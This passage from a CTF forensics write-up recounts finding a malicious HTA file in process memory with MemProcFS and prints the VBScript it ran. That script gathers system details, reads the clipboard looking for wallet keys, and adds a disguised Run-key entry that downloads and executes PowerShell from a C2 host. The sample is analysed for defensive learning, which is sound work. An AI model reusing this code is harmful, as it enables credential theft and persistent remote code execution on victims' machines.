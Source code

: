 I originally did not notice the `HTA` execution, and therefore, based on the challenge description:
`"The malware appears to be highly sophisticated."` I therefore assumed it was some kind of rootkit or something like that, so I spend quite a bit of time in that rabbit hole before I finally noticied the suspicious `HTA` execution.

#### Finding the HTML Application file
When I finally noticed the HTA application execution the alarm bells started ringing, and I essentially knew that I had found the malicious behaviour in question. Now I just needed to know what it had executed.

Luckily, this information should be readily accessible in the memory of the process (`5696`), I therefore opened the respective process in MemProcFS, found the file handles it had opened (`M:\pid\5696\files\handles`) and looked for my file and there we found it:

![List of handles for the 5696 process](img/mshta-file-handles.png)

The file contained the following script:

```vb
<script language="VBScript">
Dim a1, a2, a3, a4, a5, a6, d2
Set a1 = CreateObject("WScript.Shell")
a2 = a1.RegRead(utr("484b4c4d5c534f4654574152455c4d6963726f736f66745c57696e646f7773204e545c43757272656e7456657273696f6e5c50726f647563744e616d65"))
a3 = a1.ExpandEnvironmentStrings(utr("25434f4d50555445524e414d4525"))
a4 = a1.ExpandEnvironmentStrings(utr("25555345524e414d4525"))
a5 = a1.ExpandEnvironmentStrings(utr("2550524f434553534f525f41524348495445435455524525"))
a6 = dsf()
Dim b1, b2, b3
b1 = utr("535556594943684f5a58637454324a715a574e304945356c644335585a574a4462476c6c626e51704c6b5276643235736232466b553352796157356e4b434a6f64485277637a6f764c32686c62476c3463475633644756796332566a636d5630597a49755a5842304c32746c5a58424259324e6c63334e4a5a6b4e76626d356c593352706232354d62334e304c6e427a4d534970")

b1 = "IEX (New-Object Net.WebClient).DownloadString("https://helixpewtersecretc2.ept/keepAccessIfConnectionLost.ps1")"
b2 = HKCU\Software\Microsoft\Windows\CurrentVersion\Run\
b3 = "Microsoft Edge Integrity Checker"
a1.RegWrite b2 & b3, b1, "REG_SZ"
iolo()
Dim dtg
dtg = "5667474c4b0761534c54614e63432368700722594c40275b7f0467687b04220267166e"
d2 = hbr(dtg, &H1337)
dfg a2, a3, a4, a5, a6, d2
Function dsf()
	' "hopefully I find some wallet keys"
Dim clipboard, ert
Set clipboard = CreateObject("htmlfile")
ert = clipboard.ParentWindow.ClipboardData.GetData("text")
If Len(data) > 0 Then
dsf = data
Else
dsf = "No clipboard data found"
End If
End Function
Sub olo(min)
Dim ts
Dim tss
ts = Timer()
tss = 0
Do While tss < (min * 60)
tss = Timer() - ts
If tss < 0 Then tss = tss + 86400
CreateObject("WScript.Shell").AppActivate("shh")
Loop
```